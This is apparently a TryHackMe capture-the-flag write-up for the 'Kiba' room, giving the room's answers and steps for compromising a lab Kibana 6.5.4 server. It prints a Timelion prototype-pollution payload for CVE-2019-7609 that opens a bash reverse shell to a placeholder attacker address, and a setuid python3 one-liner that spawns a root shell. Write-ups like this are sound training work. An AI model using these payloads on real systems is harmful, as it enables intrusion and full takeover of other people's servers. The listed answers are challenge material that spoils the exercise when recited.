


# Kiba Writeup (Tryhackme) by [yag1n3](https://www.github.com/yaguine)

---

## Machine Info

### Room Labels
* RCE
* Elastic
* Python
* Linux Capabilities

### Room Objetives
* What is the vulnerability that is specific to programming languages with prototype-based inheritance? 
* What is the version of visualization dashboard installed in the server?
* What is the CVE number for this vulnerability?
* Compromise the machine and locate user.txt
* How would you recursively list all of these capabilities?
* Escalate privileges and obtain root.txt

---

## User.txt

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?  

you can answer this question before starting the machine  

**Answer** : Prototype Pollution  

### nmap

  

### port 80

looks like they're trolling with this one  

  

### port 5601

you navigate to this port with the web browser, and you are redirected to */app/kibana*  
now you have the dashboard of a software called **Kibana**  

### What is the version of visualization dashboard installed in the server?

after googling a little bit, we discover we can check the version going to the **Dev Tools** tab  
now we insert the command "GET /" and click the Run button, now we see some information

  

**Answer** : 6.5.4  

### What is the CVE number for this vulnerability?

we google Prototype Pollution Vulnerabilities for Kibana, and we find one that affects versions from 6.0.0 up to 6.6.1  

**Answer** : CVE-2019-7609

### Compromise the machine and locate user.txt

there are a couple of ways to exploit the vulnerabilitie, but this is the one i chose  
1. go to the **Timelion** tab
1. enter the following command, but introducing your IP and port (yes, there is a line break)  
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/<YOUR_IP>/<YOUR_PORT> 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
1. start a netcat listener on the selected port
1. click the "run" button 
1. enter the **Canvas** tab
1. the reverse shell should pop-up !!!

we are able to access **user.txt** on our user directory

---

## Root.txt

### How would you recursively list all of these capabilities?

this is basic PE enumeration

**Answer** : getcap -r /

### Obtain root.txt

really really easy  
with the prior command we check that there is a binary of python in our home directory with the **setuid** capabilitie set  
we spawn a root shell with `/home/kiba/.hackmeplease/python3 -c "import os;os.setuid(0);os.system('/bin/bash')"`

Congrats you own the machine !
